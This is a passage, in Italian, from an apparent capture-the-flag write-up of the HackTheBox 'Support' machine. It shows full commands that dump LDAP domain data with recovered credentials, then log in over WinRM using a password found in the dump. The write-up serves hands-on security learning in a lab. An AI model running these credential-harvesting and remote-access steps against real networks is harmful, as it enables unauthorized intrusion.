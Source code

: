 Così scopro che l'utente _support_ fa parte del gruppo "Remote Management Users".

Sucessivamente, utilizzo _ldapdomaindump_ per ricavare delle informazioni dalla macchina vittima:

```bash
ldapdomaindump -u support.htb\\ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' support.htb -o ldap
```

Nel file "domain_users.json" scopro una probabile password e tento l'accesso tramite l'utilizzo del tool _evil-winrm_:

```bash
evil-winrm -i support.htb -u support -p Ironside47pleasure40Watchful
```

<p align="center">
  <img src="/Immagini/Windows-Box/Support/support-14.png"/>
</p>

**Trovo così il primo flag!**

## Privilege Escalation
Ritorno su _bloodhound_ per trovare una strategia utile per elevare i miei privilegi:

<p align="center">